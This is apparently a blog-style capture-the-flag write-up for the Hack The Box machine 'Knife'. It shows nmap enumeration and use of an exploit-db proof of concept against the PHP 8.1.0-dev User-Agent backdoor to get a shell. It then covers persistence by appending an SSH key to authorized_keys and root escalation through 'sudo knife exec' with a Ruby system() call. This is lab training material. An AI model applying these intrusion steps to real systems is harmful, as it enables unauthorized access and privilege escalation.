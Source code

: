 ```yaml
---
title: Knife
date: 2021-06-04 22:20:00 +0200
categories: [machine]
tags: [hackthebox]
toc: false
---
```


# Enumeration
## NMAP Scan
Apache 2.4.41 (Port 80) and OpenSSH (Port 22) are running on this machine.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $sudo nmap -sC -sV 10.10.10.242
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-04 18:47 CEST
Nmap scan report for 10.10.10.242
Host is up (0.056s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Website
Upon visiting the website, not much is remarkable. No form, no hidden folders/files or anything else.
![](/assets/img/knife_box.png#center)
## Vulnerability
The running services do not seem to be vulnerable, so lets check the PHP version.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $nmap -sC -sV 10.10.10.242 --script=http-php-version
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-04 18:47 CEST
Nmap scan report for 10.10.10.242
Host is up (0.065s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-php-version: Version from header x-powered-by: PHP/8.1.0-dev
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Bingo - `PHP 8.1.0-dev` - that looks promising
# Exploitation
[PHP verion 8.1.0-dev](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/) was released with a backdoor in March 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agent header.
With a [POC script](https://www.exploit-db.com/exploits/49933) from exploit-db we get access to a shell.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $python 49933.py 
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
$ whoami
james
$ echo "ssh-rsa AAAAB3Nza...6ZMeJjY1iiRM= x7f@pWnbox" >> ~/.ssh/authorized_keys
```
Working with this shell is kinda wack. Let's add our ssh public key to the authorized_keys file. With that we can now ssh into the machine with the user James - without being asked for a password.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $ssh james@10.10.10.242
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-72-generic x86_64)
...
james@knife:~$ cat user.txt
```
We got the first flag, now it's time for the second one.
# Root
Before running automated scripts, let's run `sudo -l` and check what we can run as root.
``` bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Lets run it and check what we can do with it.
``` bash
james@knife:~$ sudo knife
ERROR: You need to pass a sub-command (e.g., knife SUB-COMMAND)

Usage: knife sub-command (options)
    -s, --server-url URL             Chef Infra Server URL.
        --chef-zero-host HOST        Host to start Chef Infra Zero on.
        --chef-zero-port PORT        Port (or port range) to start Chef Infra Zero on. Port ranges like 1000,1010 or 8889-9999 will try all given ports until one works.
    -k, --key KEY                    Chef Infra Server API client key.
        --[no-]color                 Use colored output, defaults to enabled.
    -c, --config CONFIG              The configuration file to use.
        --config-option OPTION=VALUE Override a single configuration option.
        --defaults                   Accept default values for all questions.
    -d, --disable-editing            Do not open EDITOR, just accept the data as is.
    -e, --editor EDITOR              Set the editor to use for interactive commands.
    -E, --environment ENVIRONMENT    Set the Chef Infra Client environment (except for in searches, where this will be flagrantly ignored).
        --[no-]fips                  Enable FIPS mode.
...
** EXEC COMMANDS **
knife exec [SCRIPT] (options)
...
```
Great, we can run scripts - now we just need to find out what kind of scripts are accepted.
``` bash
james@knife:~$ cat /usr/bin/knife
#!/opt/chef-workstation/embedded/bin/ruby --disable-gems
#--APP_BUNDLER_BINSTUB_FORMAT_VERSION=1--
require "rubygems"
```
Looks like Ruby. So let's try to run a Ruby script.
``` bash
james@knife:~$ echo "system('cat /root/root.txt');" > root.rb
james@knife:~$ sudo knife exec root.rb
```
We got the second flag and we are done here. ٩(◕‿◕｡)۶